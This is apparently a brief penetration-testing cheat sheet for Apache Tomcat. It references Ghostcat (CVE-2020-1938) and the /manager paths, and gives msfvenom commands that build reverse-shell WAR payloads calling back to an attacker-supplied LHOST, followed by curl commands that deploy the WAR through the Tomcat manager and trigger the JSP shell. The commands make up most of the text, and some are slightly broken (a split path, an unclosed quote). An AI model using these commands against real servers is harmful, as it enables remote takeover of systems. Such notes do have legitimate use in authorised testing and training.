 # Apache Tomcat

Default password: metasploit module auxillary scanner! 

## Ghostcat
/manager/
/manager-gui/
Upload should not necessarily require username and password
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war -o shell.war
# OR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war -o shell.war
# the FILE.jsp is catable in the .war shell 
curl -u '[USERNAME]:[PASSWORD]' --upload-file shell.war "http://$IP:8080/mana ger/text/deploy?path=/shell"
# Check the file
curl -u '[USERNAME]:[PASSWORD]' "http://$IP:8080/shell/$FILE.jsp
```

[Apache Ghostcat](https://medium.com/@sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23)